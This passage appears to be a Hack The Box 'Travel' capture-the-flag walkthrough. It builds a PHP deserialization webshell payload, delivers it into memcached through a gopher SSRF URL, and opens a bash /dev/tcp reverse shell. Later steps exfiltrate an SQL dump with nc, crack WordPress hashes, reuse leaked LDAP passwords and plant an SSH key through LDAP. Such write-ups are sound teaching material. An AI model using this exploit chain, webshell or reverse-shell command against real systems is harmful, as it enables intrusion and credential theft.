[https://github.com/WordPress/WordPress/blob/master/wp-includes/SimplePie/Cache/Memcached.php](https://github.com/WordPress/WordPress/blob/master/wp-includes/SimplePie/Cache/Memcached.php)

I didn't have to look through the code long to find the relevant code.  The `__construct` function from the `SimplePie_Cache_Memcached` class is what is called by the `get_feed()` function in the website's code.  It looked like they had left the default host and port values, but had customized the `timeout` and `prefix` values.  This code further explained what was actually stored in the memcached key. 



I also decided to check in `Misc.php` and `Cache.php` since they were referenced in the `Memcache.php` code. `Cache.php` has a `get_handler` function which returns an object based on the type of handler requested. One of the handlers is `SimplePie_Cache_Memcached`. In this the `$name` variable is set to `$filename` and the `$type` variable is set to `$extension`.

Looking back at the source code of `Memcached.php`, I traced through what was going on. This function takes the MD5 hash of `$name` \(filename\) and `$type` \(extension\)  together. The prefix \(in this case `_xct`\) is added to the front afterwards. 



> Looking for usage of this method, we come across class-simplepie.php. $cache = $this-&gt;registry-&gt;call\('Cache', 'get\_handler', array\($this- cache\_location, call\_user\_func\($this-&gt;cache\_name\_function, $url\), 'spc'\)\); This script calls the get\_handler method with the parameters cache\_location \($location\), cache\_name\_function\($url\) \($filename\) and spc \($extension\). On searching for cache\_name\_function in the same script, we see that it is set to MD5.
>
> T



Inside the SimplePie class there was a small function that set `$cache_name_function` to `md5`.  

The end result of all of this: it means that $filename \(later $name\) is set to md5\($url\) , while $extension \(later $type\) is set to spc . This gives me the information I need to create the memcached key to store my malicious payload in.  keyname = md5\(md5\(url\) + ":" + "spc"\) I verified this by using the original URL used of the page I ran debug on.

```text
┌──(zweilos㉿kali)-[~/htb/travel]
└─$ echo -n 'http://www.travel.htb/newsfeed/customfeed.xml' | md5sum
3903a76d1e6fef0d76e973a0561cbfc0  -

┌──(zweilos㉿kali)-[~/htb/travel]
└─$ echo -n '3903a76d1e6fef0d76e973a0561cbfc0:spc' | md5sum  
4e5612ba079c530a6b1f148c0b352241  -
```

This matches the output I saw in the debug code given by the system earlier! vuln confirmed

> In the SimplePie\_Cache\_Memcached class, we also see a load\(\) method that calls unserialize\(\).
>
> We also need to find a class to craft a malicious object for. This is where the TemplateHelper class comes in. We can create a malicious object of this class and write a PHP file to the logs folder when it's unserialized. Use the following script to generate such an object. Note that the $file and $data variable should be made public as private variables can't be accessed directly while deserializing.

```text
<?php
class TemplateHelper
{
public $file;
public $data;
public function __construct(string $file, string $data)
{
$this->init($file, $data);
}
private function init(string $file, string $data)
{
$this->file = $file;
$this->data = $data;
file_put_contents(__DIR__.'/logs/'.$this->file, $this->data);
}
}
$back_door = new TemplateHelper("back_door.php", "<?php system(\$_REQUEST[test]); ?>");
echo serialize($back_door);
?>
```

> The script above serializes an object of the class TemplateHelper , which writes a webshell to shell.php on deserialization.

### Crafting the payload

```text
┌──(zweilos㉿kali)-[~/htb/travel]
└─$ php -f test.php
PHP Warning:  file_put_contents(/home/zweilos/htb/travel/logs/back_door.php): failed to open stream: No such file or directory in /home/zweilos/htb/travel/test.php on line 14
O:14:"TemplateHelper":2:{s:4:"file";s:13:"back_door.php";s:4:"data";s:28:"<?php system($_GET[test]);?>";}
```

> Next, we need to set this payload as a value for the key xct\_4e5612ba079c530a6b1f148c0b352241 , so that it is deserialized when the server next fetches feeds.

```text
┌──(zweilos㉿kali)-[~/htb/travel]
└─$ php -f test.php                                                                                 1 ⨯
PHP Warning:  file_put_contents(/home/zweilos/htb/travel/logs/back_door.php): failed to open stream: No such file or directory in /home/zweilos/htb/travel/test.php on line 14
O:14:"TemplateHelper":2:{s:4:"file";s:13:"back_door.php";s:4:"data";s:34:"<?php system($_REQUEST['test']);?>";}                                                                                                        
┌──(zweilos㉿kali)-[~/htb/travel]
└─$ Gopherus/gopherus.py --exploit phpmemcache

  ________              .__                                                                             
 /  _____/  ____ ______ |  |__   ___________ __ __  ______                                              
/   \  ___ /  _ \\____ \|  |  \_/ __ \_  __ \  |  \/  ___/                                              
\    \_\  (  <_> )  |_> >   Y  \  ___/|  | \/  |  /\___ \                                               
 \______  /\____/|   __/|___|  /\___  >__|  |____//____  >                                              
        \/       |__|        \/     \/                 \/                                               

                author: $_SpyD3r_$                                                                      

This is usable when you know Class and Variable name used by user

Give serialization payload
example: O:5:"Hello":0:{}   : O:14:"TemplateHelper":2:{s:4:"file";s:13:"test.php";s:4:"data";s:34:"<?php system($_REQUEST['test']);?>";}

Your gopher link is ready to do SSRF :                                                                   
gopher://127.0.0.1:11211/_%0d%0aset%20SpyD3r%204%200%20111%0d%0aO:14:%22TemplateHelper%22:2:%7Bs:4:%22file%22%3Bs:13:%22test.php%22%3Bs:4:%22data%22%3Bs:34:%22%3C%3Fphp%20system%28%24_REQUEST%5B%27test%27%5D%29%3B%3F%3E%22%3B%7D%0d%0a

After everything done, you can delete memcached item by using this payload:                             

gopher://127.0.0.1:11211/_%0d%0adelete%20SpyD3r%0d%0a

-----------Made-by-SpyD3r-----------
```

After that it took awhile to figure out where my `back_door.php` was located. I found a hint in the README.md file I had found in the git repository earlier: `* create logs directory in wp-content/themes/twentytwenty` I used dirbuster to find the exact directory, adding back\_door to my wordlist

final url - the length of the contents is important! make sure it is correct \(111 in my case\)

```text
http://blog.travel.htb/awesome-rss/?custom_feed_url=gopher://0x7f000001:11211/_%0d%0aset%20xct_4e5612ba079c530a6b1f148c0b352241%204%200%20111%0d%0aO:14:%22TemplateHelper%22:2:%7Bs:4:%22file%22%3Bs:13:%22back_door.php%22%3Bs:4:%22data%22%3Bs:34:%22%3C%3Fphp%20system%28%24_REQUEST%5B%27test%27%5D%29%3B%3F%3E%22%3B%7D%0d%0a
```

HAVE TO decimal/hex encode 127.0.0.1~~~!!! 2130706433 or 0x7f000001 and add xct\_ a shell can be obtained by using parameter:

```text
test=bash -c "bash -i >& /dev/tcp/10.10.15.53/8099 0>&1"
```

`xct_4e5612ba079c530a6b1f148c0b352241`

### Initial Foothold - `www-data`

```text
www-data@blog:/var/www/html$ ls -la
ls -la
total 232
drwxrwxrwx  5 www-data www-data  4096 Apr 13 13:28 .
drwxr-xr-x  1 root     root      4096 Mar 31 18:10 ..
-rw-r--r--  1 www-data www-data   461 Apr 13 13:19 .htaccess
-rw-r--r--  1 root     root      6423 Apr 13 14:21 customfeed.xml
-rw-r--r--  1 www-data www-data   405 Feb  6  2020 index.php
-rw-r--r--  1 www-data www-data 19915 Feb 12  2020 license.txt
-rw-r--r--  1 www-data www-data  7278 Jan 10  2020 readme.html
-rw-r--r--  1 www-data www-data  6912 Feb  6  2020 wp-activate.php
drwxr-xr-x  9 www-data www-data  4096 Mar 31 20:03 wp-admin
-rw-r--r--  1 www-data www-data   351 Feb  6  2020 wp-blog-header.php
-rw-r--r--  1 www-data www-data  2275 Feb  6  2020 wp-comments-post.php
-rw-r--r--  1 www-data www-data  2913 Feb  6  2020 wp-config-sample.php
-rw-rw-rw-  1 www-data www-data  3186 Apr 13 14:10 wp-config.php
drwxr-xr-x  5 www-data www-data  4096 Apr 23 19:10 wp-content
-rw-r--r--  1 www-data www-data  3940 Feb  6  2020 wp-cron.php
drwxr-xr-x 21 www-data www-data 12288 Mar 31 20:03 wp-includes
-rw-r--r--  1 www-data www-data  2496 Feb  6  2020 wp-links-opml.php
-rw-r--r--  1 www-data www-data  3300 Feb  6  2020 wp-load.php
-rw-r--r--  1 www-data www-data 47874 Feb 10  2020 wp-login.php
-rw-r--r--  1 www-data www-data  8501 Feb  6  2020 wp-mail.php
-rw-r--r--  1 www-data www-data 19396 Feb 10  2020 wp-settings.php
-rw-r--r--  1 www-data www-data 31111 Feb  6  2020 wp-signup.php
-rw-r--r--  1 www-data www-data  4755 Feb  6  2020 wp-trackback.php
-rw-r--r--  1 www-data www-data  3133 Feb  6  2020 xmlrpc.php
```

Nothing of interest in the `/var/www/html` directory

```text
www-data@blog:/opt/wordpress$ ls -la
ls -la
total 1180
drwxr-xr-x 1 root root    4096 Apr 24 06:39 .
drwxr-xr-x 1 root root    4096 Apr 13 13:37 ..
-rw-r--r-- 1 root root 1190388 Apr 24 06:39 backup-13-04-2020.sql
www-data@blog:/opt/wordpress$ nc 10.10.15.53 9099 < backup-13-04-2020.sql
nc 10.10.15.53 9099 < backup-13-04-2020.sql
```

In the `/opt/wordpress` directory found and extracted a .sql file to my home machine; tried to open with `sqlitebrowser` but it told me it wasnt a valid database. I used the file command on it and it said it was a stnadard ASCII file so I opened it with `vim` and started browsing

picture

### Finding user credentials

It was a sqldump output file rather than an actual database, but contained all of the recent queries to the database, found password hashes for an `admin` user and `lynik-admin` , loading in hash-identifier to check what type of hash then loaded to crack with hashcat

```text
INSERT INTO `wp_users` VALUES
(1,'admin','$P$BIRXVj/ZG0YRiBH8gnRy0chBx67WuK/','admin','admin@travel.htb','http
://localhost','2020-04-13 13:19:01','',0,'admin'),(2,'lynik-
admin','$P$B/wzJzd3pj/n7oTe2GGpi5HcIl4ppc.','lynik-
admin','lynik@travel.htb','','2020-04-13 13:36:18','',0,'Lynik Schmidt');
```

```text
┌──(zweilos㉿kali)-[~/htb/travel]
└─$ hash-identifier 
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------
 HASH: $P$B/wzJzd3pj/n7oTe2GGpi5HcIl4ppc.

Possible Hashs:
[+] MD5(Wordpress)
--------------------------------------------------
```

[https://scottlinux.com/2013/04/23/crack-wordpress-password-hashes-with-hashcat-how-to/](https://scottlinux.com/2013/04/23/crack-wordpress-password-hashes-with-hashcat-how-to/) tells me the correct hash type to use for hashcat is m=400

```text
┌──(zweilos㉿kali)-[~/htb/travel]
└─$ hashcat -O -D1,2 -a0 -m400 travel-hashes /usr/share/wordlists/rockyou.txt                     130 ⨯
hashcat (v6.1.1) starting...

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

$P$B/wzJzd3pj/n7oTe2GGpi5HcIl4ppc.:1stepcloser   
Approaching final keyspace - workload adjusted.  

Session..........: hashcat
Status...........: Exhausted
Hash.Name........: phpass
Hash.Target......: travel-hashes
Time.Started.....: Sat Sep 19 14:31:18 2020 (6 mins, 22 secs)
Time.Estimated...: Sat Sep 19 14:37:40 2020 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    39458 H/s (13.43ms) @ Accel:1024 Loops:1024 Thr:1 Vec:8
Recovered........: 1/2 (50.00%) Digests, 1/2 (50.00%) Salts
Progress.........: 28688770/28688770 (100.00%)
Rejected.........: 2120/28688770 (0.01%)
Restore.Point....: 14344385/14344385 (100.00%)
Restore.Sub.#1...: Salt:1 Amplifier:0-1 Iteration:7168-8192
Candidates.#1....: $HEX[21494d41424954434821] -> $HEX[042a0337c2a156616d6f732103]

Started: Sat Sep 19 14:31:07 2020
Stopped: Sat Sep 19 14:37:41 2020
```

Unfortunately I was only able to crack one of the hashes. The password for `lynik-admin` was `1stepcloser` , which I then used to SSH into the machine.

### Road to User

```text
┌──(zweilos㉿kali)-[~/htb/travel]
└─$ ssh lynik-admin@10.10.10.189                                                                  255 ⨯
lynik-admin@10.10.10.189's password: 
Permission denied, please try again.
lynik-admin@10.10.10.189's password: 
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-26-generic x86_64)

  System information as of Sat 19 Sep 2020 03:12:57 PM UTC

  System load:                      0.0
  Usage of /:                       46.0% of 15.68GB
  Memory usage:                     11%
  Swap usage:                       0%
  Processes:                        201
  Users logged in:                  0
  IPv4 address for br-836575a2ebbb: 172.20.0.1
  IPv4 address for br-8ec6dcae5ba1: 172.30.0.1
  IPv4 address for docker0:         172.17.0.1
  IPv4 address for eth0:            10.10.10.189

lynik-admin@travel:~$ id && hostname
uid=1001(lynik-admin) gid=1001(lynik-admin) groups=1001(lynik-admin)
travel
lynik-admin@travel:~$
```

```text
lynik-admin@travel:~$ sudo -l
[sudo] password for lynik-admin: 
Sorry, user lynik-admin may not run sudo on travel.
```

I tried to see what `lynik-admin` could do with sudo, but apparently this user was not in the sudoers file

### User.txt

```text
lynik-admin@travel:~$ ls
user.txt
lynik-admin@travel:~$ cat user.txt 
c568778f414d770c700de3a7ff867230
```

## Path to Power \(Gaining Root Access\)

### Enumeration as `lynik-admin`

```text
lynik-admin@travel:~$ ls -la
total 36
drwx------ 3 lynik-admin lynik-admin 4096 Apr 24 06:52 .
drwxr-xr-x 4 root        root        4096 Apr 23 17:31 ..
lrwxrwxrwx 1 lynik-admin lynik-admin    9 Apr 23 17:31 .bash_history -> /dev/null
-rw-r--r-- 1 lynik-admin lynik-admin  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 lynik-admin lynik-admin 3771 Feb 25  2020 .bashrc
drwx------ 2 lynik-admin lynik-admin 4096 Apr 23 19:34 .cache
-rw-r--r-- 1 lynik-admin lynik-admin   82 Apr 23 19:35 .ldaprc
-rw-r--r-- 1 lynik-admin lynik-admin  807 Feb 25  2020 .profile
-r--r--r-- 1 root        root          33 Sep 19 14:16 user.txt
-rw------- 1 lynik-admin lynik-admin  861 Apr 23 19:35 .viminfo
```

In `lynik-admin`'s home folder I found a `.ldaprc` file which looked interesting. According to the [http://manpages.ubuntu.com/manpages/cosmic/man5/ldap.conf.5.html](http://manpages.ubuntu.com/manpages/cosmic/man5/ldap.conf.5.html), this file is used to set configuration variables for connecting to LDAP.

> The server appears to be at 172.20.0.10

```text
ldap.travel.htb
BASE dc=travel,dc=htb
BINDDN cn=lynik-admin,dc=travel,dc=htb
```

> The default LDAP port 389 can to exposed to our machine using SSH. ssh -L 389:172.20.0.10:389 lynik-admin@10.10.10.189 This will let us access the server from localhost. Let's attempt to query the LDAP service.

`ldapsearch -x -h 127.0.0.1 -b "DC=travel,DC=htb" -D "CN=lynik-admin,DC=travel,DC=htb"` The -x option specifies simple anonymous authentication. The -b flag is used to specify the search base, while the -D flag specifies the bind DN. These values came from the .ldaprc file.

ssh port forward tunnel


> This file is used to store metadata and user interaction history with Vim, which is a text editor. It helps Vim remember details such as the cursor placement, deleted data as well as search patterns.
>
> &gt; The file stores a line which subsequently deleted from the .ldaprc file. This line contain the
>
> &gt; bind password Theroadlesstraveled . Let's try using it to connect to LDAP.

text

```text
lynik-admin@travel:~$ ldapsearch -x -w Theroadlesstraveled
# extended LDIF
#
# LDAPv3
# base <dc=travel,dc=htb> (default) with scope subtree
# filter: (objectclass=*)
# requesting: ALL
#

# travel.htb
dn: dc=travel,dc=htb
objectClass: top
objectClass: dcObject
objectClass: organization
o: Travel.HTB
dc: travel

# admin, travel.htb
dn: cn=admin,dc=travel,dc=htb
objectClass: simpleSecurityObject
objectClass: organizationalRole
cn: admin
description: LDAP administrator

# servers, travel.htb
dn: ou=servers,dc=travel,dc=htb
description: Servers
objectClass: organizationalUnit
ou: servers

# lynik-admin, travel.htb
dn: cn=lynik-admin,dc=travel,dc=htb
description: LDAP administrator
objectClass: simpleSecurityObject
objectClass: organizationalRole
cn: lynik-admin
userPassword:: e1NTSEF9MEpaelF3blZJNEZrcXRUa3pRWUxVY3ZkN1NwRjFRYkRjVFJta3c9PQ=
 =

...Snipped for brevity...

# jane, users, linux, servers, travel.htb
dn: uid=jane,ou=users,ou=linux,ou=servers,dc=travel,dc=htb
uid: jane
uidNumber: 5005
homeDirectory: /home/jane
givenName: Jane
gidNumber: 5000
sn: Rodriguez
cn: Jane Rodriguez
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: inetOrgPerson
objectClass: posixAccount
objectClass: shadowAccount
loginShell: /bin/bash

# brian, users, linux, servers, travel.htb
dn: uid=brian,ou=users,ou=linux,ou=servers,dc=travel,dc=htb
uid: brian
cn: Brian Bell
sn: Bell
givenName: Brian
loginShell: /bin/bash
uidNumber: 5002
gidNumber: 5000
homeDirectory: /home/brian
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: inetOrgPerson
objectClass: posixAccount
objectClass: shadowAccount

# frank, users, linux, servers, travel.htb
dn: uid=frank,ou=users,ou=linux,ou=servers,dc=travel,dc=htb
uid: frank
cn: Frank Stewart
sn: Stewart
givenName: Frank
loginShell: /bin/bash
uidNumber: 5001
gidNumber: 5000
homeDirectory: /home/frank
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: inetOrgPerson
objectClass: posixAccount
objectClass: shadowAccount

# jerry, users, linux, servers, travel.htb
dn: uid=jerry,ou=users,ou=linux,ou=servers,dc=travel,dc=htb
uid: jerry
uidNumber: 5006
homeDirectory: /home/jerry
givenName: Jerry
gidNumber: 5000
sn: Morgan
cn: Jerry Morgan
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: inetOrgPerson
objectClass: posixAccount
objectClass: shadowAccount
loginShell: /bin/bash

# lynik, users, linux, servers, travel.htb
dn: uid=lynik,ou=users,ou=linux,ou=servers,dc=travel,dc=htb
uid: lynik
uidNumber: 5000
homeDirectory: /home/lynik
givenName: Lynik
gidNumber: 5000
sn: Schmidt
cn: Lynik Schmidt
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: inetOrgPerson
objectClass: posixAccount
objectClass: shadowAccount
loginShell: /bin/bash

# edward, users, linux, servers, travel.htb
dn: uid=edward,ou=users,ou=linux,ou=servers,dc=travel,dc=htb
uid: edward
uidNumber: 5009
homeDirectory: /home/edward
givenName: Edward
gidNumber: 5000
sn: Roberts
cn: Edward Roberts
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: inetOrgPerson
objectClass: posixAccount
objectClass: shadowAccount
loginShell: /bin/bash

# eugene, users, linux, servers, travel.htb
dn: uid=eugene,ou=users,ou=linux,ou=servers,dc=travel,dc=htb
uid: eugene
cn: Eugene Scott
sn: Scott
givenName: Eugene
loginShell: /bin/bash
uidNumber: 5008
gidNumber: 5000
homeDirectory: /home/eugene
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: inetOrgPerson
objectClass: posixAccount
objectClass: shadowAccount

# gloria, users, linux, servers, travel.htb
dn: uid=gloria,ou=users,ou=linux,ou=servers,dc=travel,dc=htb
uid: gloria
uidNumber: 5010
homeDirectory: /home/gloria
givenName: Gloria
gidNumber: 5000
sn: Wood
cn: Gloria Wood
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: inetOrgPerson
objectClass: posixAccount
objectClass: shadowAccount
loginShell: /bin/bash

# johnny, users, linux, servers, travel.htb
dn: uid=johnny,ou=users,ou=linux,ou=servers,dc=travel,dc=htb
uid: johnny
cn: Johnny Miller
sn: Miller
givenName: Johnny
loginShell: /bin/bash
uidNumber: 5004
gidNumber: 5000
homeDirectory: /home/johnny
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: inetOrgPerson
objectClass: posixAccount
objectClass: shadowAccount

# louise, users, linux, servers, travel.htb
dn: uid=louise,ou=users,ou=linux,ou=servers,dc=travel,dc=htb
uid: louise
cn: Louise Griffin
sn: Griffin
givenName: Louise
loginShell: /bin/bash
uidNumber: 5007
gidNumber: 5000
homeDirectory: /home/louise
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: inetOrgPerson
objectClass: posixAccount
objectClass: shadowAccount

# christopher, users, linux, servers, travel.htb
dn: uid=christopher,ou=users,ou=linux,ou=servers,dc=travel,dc=htb
uid: christopher
uidNumber: 5003
homeDirectory: /home/christopher
givenName: Christopher
gidNumber: 5000
sn: Ward
cn: Christopher Ward
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: inetOrgPerson
objectClass: posixAccount
objectClass: shadowAccount
loginShell: /bin/bash

# domainusers, groups, linux, servers, travel.htb
dn: cn=domainusers,ou=groups,ou=linux,ou=servers,dc=travel,dc=htb
memberUid: frank
memberUid: brian
memberUid: christopher
memberUid: johnny
memberUid: julia
memberUid: jerry
memberUid: louise
memberUid: eugene
memberUid: edward
memberUid: gloria
memberUid: lynik
gidNumber: 5000
cn: domainusers
objectClass: top
objectClass: posixGroup

# search result
search: 2
result: 0 Success

# numResponses: 22
# numEntries: 21
```

I was able to successfully dump the contents of the LDAP database, and found a list of users.  Since `lynik-admin` is an LDAP administrator, I now had the ability to modify user and device attributes stored in the LDAP database.  In a Windows domain, this could give me the ability to promote a user to domain admin if I wished.  In this case I will just try to use this to promote a user to root.  Modifying LDAP through standard queries is pretty tedious, so I used Apache's Directory Studio to get a nice simple GUI.  This can be downloaded for free from [https://directory.apache.org/studio/downloads.html](https://directory.apache.org/studio/downloads.html).

need to port forward 389 \(need sudo rights for low port\)

tried portforwarding using localhost and 127.0.0.1, but failed to connect, checked ip a and /etc/hosts to find out more and noticed 172.20.0.10

```text
lynik-admin@travel:/var$ ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 00:50:56:b9:bc:d0 brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.189/24 brd 10.10.10.255 scope global eth0
       valid_lft forever preferred_lft forever
3: docker0: <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc noqueue state DOWN group default 
    link/ether 02:42:eb:d3:9e:f4 brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.1/16 brd 172.17.255.255 scope global docker0
       valid_lft forever preferred_lft forever
4: br-836575a2ebbb: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:0e:57:82:22 brd ff:ff:ff:ff:ff:ff
    inet 172.20.0.1/24 brd 172.20.0.255 scope global br-836575a2ebbb
       valid_lft forever preferred_lft forever
5: br-8ec6dcae5ba1: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:62:92:81:b4 brd ff:ff:ff:ff:ff:ff
    inet 172.30.0.1/24 brd 172.30.0.255 scope global br-8ec6dcae5ba1
       valid_lft forever preferred_lft forever
7: vetha779908@if6: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue master br-8ec6dcae5ba1 state UP group default 
    link/ether 72:de:2f:8b:3d:cc brd ff:ff:ff:ff:ff:ff link-netnsid 0
9: vethef87583@if8: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue master br-8ec6dcae5ba1 state UP group default 
    link/ether 1a:aa:24:64:cc:d9 brd ff:ff:ff:ff:ff:ff link-netnsid 1
11: vethad21680@if10: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue master br-836575a2ebbb state UP group default 
    link/ether d2:d3:97:5f:1e:6d brd ff:ff:ff:ff:ff:ff link-netnsid 2
13: vethd1561b2@if12: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue master br-8ec6dcae5ba1 state UP group default 
    link/ether da:10:aa:7a:cb:5f brd ff:ff:ff:ff:ff:ff link-netnsid 3
15: veth5af27ca@if14: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue master br-8ec6dcae5ba1 state UP group default 
    link/ether 02:e7:02:1d:f1:36 brd ff:ff:ff:ff:ff:ff link-netnsid 5
17: veth94d1920@if16: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue master br-8ec6dcae5ba1 state UP group default 
    link/ether e6:86:a7:88:79:dd brd ff:ff:ff:ff:ff:ff link-netnsid 4

lynik-admin@travel:/var$ cat /etc/hosts
127.0.0.1 localhost
127.0.1.1 travel
172.20.0.10 ldap.travel.htb

# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

checked `ip a` and /etc/hosts to find out more and noticed 172.20.0.10

```text
┌──(zweilos㉿kali)-[~/htb/travel]
└─$ sudo ssh -L 389:172.20.0.10:389 lynik-admin@10.10.10.189 
[sudo] password for zweilos: 
The authenticity of host '10.10.10.189 (10.10.10.189)' can't be established.
ECDSA key fingerprint is SHA256:KSjh2mhuESUZQcaB1ewLHie9gTUCmvOlypvBpcyAF/w.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.189' (ECDSA) to the list of known hosts.
lynik-admin@10.10.10.189's password: 
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-26-generic x86_64)

  System information as of Sat 19 Sep 2020 03:46:50 PM UTC

  System load:                      0.0
  Usage of /:                       46.0% of 15.68GB
  Memory usage:                     11%
  Swap usage:                       0%
  Processes:                        198
  Users logged in:                  0
  IPv4 address for br-836575a2ebbb: 172.20.0.1
  IPv4 address for br-8ec6dcae5ba1: 172.30.0.1
  IPv4 address for docker0:         172.17.0.1
  IPv4 address for eth0:            10.10.10.189

Last login: Sat Sep 19 15:46:18 2020 from 10.10.15.53
lynik-admin@travel:~$
```

login as `lynik` failed with password, but it says that only an ssh key can be used to login

[https://serverfault.com/questions/653792/ssh-key-authentication-using-ldap](https://serverfault.com/questions/653792/ssh-key-authentication-using-ldap)

> According to the sshd\_config manpage, the AuthorizedKeysCommand configuration is used to specify the program from which the SSH server retrieves user public keys from. The sss\_ssh\_authorizedkeys utility retrieves user public keys from the specified domain. According to the documentation, SSH public keys can be stored in the sshPublicKey attribute in LDAP.

Next I tried adding the public key attribute to the `lynik` user. First, I had to add a new objectClass attribute then select ldapPublicKey After that I added the attribute sshPublicKey to `lynik` and clicked on `Edit as Text` in the editor and paste the public key.

searching for ssh keys and ldap led to [https://serverfault.com/questions/653792/ssh-key-authentication-using-ldap](https://serverfault.com/questions/653792/ssh-key-authentication-using-ldap) which shows that it is possible to add keys through ldap

pictures

## enumeration as `lynik`

```text
┌──(zweilos㉿kali)-[~/htb/travel]
└─$ ssh lynik@10.10.10.189 -i lynik 
Creating directory '/home@TRAVEL/lynik'.
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-26-generic x86_64)

  System information as of Sat 19 Sep 2020 04:07:29 PM UTC

  System load:                      0.0
  Usage of /:                       46.0% of 15.68GB
  Memory usage:                     11%
  Swap usage:                       0%
  Processes:                        201
  Users logged in:                  1
  IPv4 address for br-836575a2ebbb: 172.20.0.1
  IPv4 address for br-8ec6dcae5ba1: 172.30.0.1
  IPv4 address for docker0:         172.17.0.1
  IPv4 address for eth0:            10.10.10.189

          *** Travel.HTB News Flash ***
